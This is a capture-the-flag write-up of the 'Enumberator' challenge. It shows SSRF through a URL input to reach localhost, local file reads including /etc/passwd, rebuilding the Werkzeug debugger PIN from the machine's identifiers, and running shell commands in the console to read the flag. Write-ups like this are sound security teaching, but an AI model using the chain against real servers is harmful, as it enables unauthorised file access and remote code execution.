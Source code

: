 # Enumberator

Opeing this page with a browser showed a page with a single input box.

we speculated that the server would make a web request to the page when we clicked the button on the page.

To verify this we entered `http://localhost:9002/` in the input box and hit enter.

The result was the page being loaded twice.

This potentially useful as it provided a way of accessing the server on a different
port by making queries to localhost on different ports.  Normally we would be unable to do this as we could only access the machine on `http://192.168.125.100:9002/`

The next discovery came from enetering invalid value for the url. This sent us to a `Werkzeug  traceback interpreter`.

looking at the error we saw that if the string `file` was within the provided url then the server would attemt to open a file rather than making a network request.

This was useful as it allowed us to see the server's internal state.

One of the first things we looked at was the passwd file

```
root:x:0/:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

Since only the root user had a shell and we had permission to access the passwd
 file , we speculated that the server was being run as root.

This was still not too helpful as although we could read any file on the system
 we still couldn't see the flag and we were unable to list files or run any other commands.

Researching `Werkzeug` further, we realised that it should be possible to access
 a python console. However navigating to `http://192.168.125.100:9002/console` gave us a request for a pin.

To identify what the pin was we looked at the the source of werkzeug - in
particular the `__init__.py` file.

We  saw that the `cgroup`, MAC address and `boot_id` were used to generate the pin.

Using the trick from earlier we were able to access files containing these values.

next we copied the contents of __init__.py to a file called `fakeinit.py` and
substituded the values for the cgroup, MAC address and boot_id, as well as some
other values which we were able to make infomed guessed about - such as the
 username wich we guessed to be root.

Executing this script gave us a pin:
  
```sh
python ./3-enumerator/fakeinit.py
('100-862-562', '__wzdb3546933b40f098f5b74')
```

We then entered this pin into Werkzeug  and we were able to access a python console.

To get the flag we ran the following command:

```python
import os
stream = os.popen("ls -la")
stream.read()
```
This gave us a directory listing:

```
total 20
drwxr-xr-x    1 root     root          4096 Mar 30 19:09 .
drwxr-xr-x    1 root     root          4096 Apr  1 11:57 ..
-rw-r--r--    1 root     root          1359 Mar 30 18:57 enumerator.py
-rw-r--r--    1 root     root            41 Mar 30 18:57 jthnp_flag_ohvlt.txt
-rw-r--r--    1 root     root           183 Mar 30 18:57 requirements.txt
```

Clearly the flag was in the `jthnp_flag_ohvlt.txt` file.

Accessing it was simply a matter of doing
```python
stream = os.popen("cat jthnp_flag_ohvlt.txt")
stream.read()
```

Which gave us the flag of `ICTF{th3_fl4g_w4s_h1d1ng_1n_pl41n_s1ght}`